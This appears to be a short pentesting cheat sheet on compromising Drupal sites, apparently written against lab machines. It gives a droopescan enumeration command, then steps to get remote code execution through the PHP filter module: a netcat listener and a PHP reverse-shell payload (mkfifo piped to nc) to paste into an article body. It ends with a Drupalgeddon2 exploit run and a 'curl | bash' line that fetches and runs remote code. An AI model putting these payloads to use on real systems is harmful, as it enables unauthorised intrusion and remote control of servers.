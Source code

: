 # Drupal

## Drupal

### Drupal Enumeration

We can use droopescan:

```bash
droopescan scan drupal -u http://10.10.10.102
```

### Drupal RCE

First: Modules -&gt; Enable PHP filter 

Second: Add content -&gt; Article

Then listen in a port of your choosing :

```text
nc -lvnp 443
```

Afterward in the Drupal Article **Body** add this payload:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
```

Next, in the **Text Format**, we select **PHP code.**

Finally, we click on the **Preview** button.

## Drupal Exploits

### Druppalgeddon

```text
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```

